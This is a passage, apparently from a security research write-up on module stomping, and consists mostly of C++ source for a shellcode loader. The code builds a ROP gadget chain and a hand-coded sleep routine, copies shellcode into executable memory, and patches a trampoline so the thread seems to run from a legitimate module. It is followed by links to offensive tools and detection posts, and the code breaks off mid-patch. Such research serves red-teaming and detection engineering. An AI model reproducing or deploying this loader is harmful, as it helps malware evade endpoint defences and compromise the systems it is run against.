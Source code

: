 ```cpp
    UCHAR injector[N_ROP_GADGETS * MOV_SPACE + 1] = { 0 };

    UCHAR SleepRoutine[] = { 
        0x48, 0x31, 0xc9, 0xb9, 0x10, 0x27, 0x00, 0x00, 0x57, 0x48, 
        0x89, 0xe7, 0x48, 0x83, 0xe4, 0xf0, 0x48, 0x83, 0xec, 0x40, 
        0x49, 0xbf, 
                
        0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,

        0x41, 0xff, 0xd7, 0x48, 0x83, 0xc4, 0x40, 0x48, 0x89, 
        0xfc, 0x5f, 0x90 
    };

    _Hton((ULONG64)SleepFunc, SleepRoutine, 22);

    for (int i = 0; i < N_ROP_GADGETS; i++) {
        _ConstructPushWithBytes(ropChain, injector, (N_ROP_GADGETS - i - 1) * 8, i * MOV_SPACE);
    }
    injector[N_ROP_GADGETS * MOV_SPACE] = 0xc3; // RET

#ifdef _DEBUG
    printfFunc("--- Printing ROP injector\n");
    for (int kk = 1; kk <= sizeof(injector); kk++) {

        printfFunc("%02x", injector[kk - 1]);

        if (kk % 12 == 0) {
            printfFunc("\n");
        }
    }
    printfFunc("\n");
    printfFunc("--- END\n");
#endif


    /**
    * The Following code copy the main shellcode in the previously allocated RX section
    * there for execution. It also patch the relevant trampoline to ensure the started  
    * thread has a return address in the hijacked module, rather than in the unbacked memory. 
    */

    // Copy shellcode into memory
    memcpyFunc(address, (void*)shellcodeAddress, shSize);

    // Copy ROP injector into memory
    memcpyFunc(ropInjectorAddress, SleepRoutine, SLEEP_ROUTINE_SIZE);
    memcpyFunc((LPVOID)((ULONG64)ropInjectorAddress + SLEEP_ROUTINE_SIZE), injector, N_ROP_GADGETS * MOV_SPACE + 1);

#ifdef _DEBUG
    printfFunc("Shellcode address: 0x%llx\n", (ULONG64)address);
    printfFunc("ROP Injector address: 0x%llx\n", (ULONG64)ropInjectorAddress);
#endif

    /*
        Patching Trampoline to JMP to the shellcode in memory
    */

    UINT64 target = (UINT64)address;

    UCHAR patch[13] = { 0 };
    // mov r15, <address>
    patch[0] = 0x49;
```

[1]: https://github.com/klezVirus/inceptor.git
[2]: https://github.com/Idov31/FunctionStomping
[3]: https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/
[4]: https://github.com/Idov31/FunctionStomping
[5]: https://twitter.com/Idov31
[6]: https://twitter.com/hasherezade
[7]: https://twitter.com/modexpblog
[8]: https://www.arashparsa.com/bypassing-pesieve-and-moneta-the-easiest-way-i-could-find/
[9]: https://twitter.com/waldoirc
[10]: https://github.com/waldo-irc/YouMayPasser/
[11]: https://blog.f-secure.com/cowspot-real-time-module-stomping-detection/
[12]: https://twitter.com/_rastamouse
[13]: https://offensivedefence.co.uk/posts/module-stomping/